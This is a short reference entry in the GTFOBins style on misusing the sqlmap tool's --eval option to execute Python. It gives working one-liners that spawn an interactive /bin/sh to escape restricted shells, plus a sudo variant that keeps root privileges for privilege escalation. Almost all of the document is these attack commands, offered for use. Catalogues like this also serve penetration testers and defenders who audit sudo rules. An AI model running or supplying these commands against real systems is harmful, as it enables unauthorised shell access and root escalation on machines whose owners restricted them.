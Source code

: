 # GTFOBin: sqlmap

This allows to execute `python` code, other functions may apply.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
sqlmap -u 127.0.0.1 --eval="import os; os.system('/bin/sh')"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo sqlmap -u 127.0.0.1 --eval="import os; os.system('/bin/sh')"
```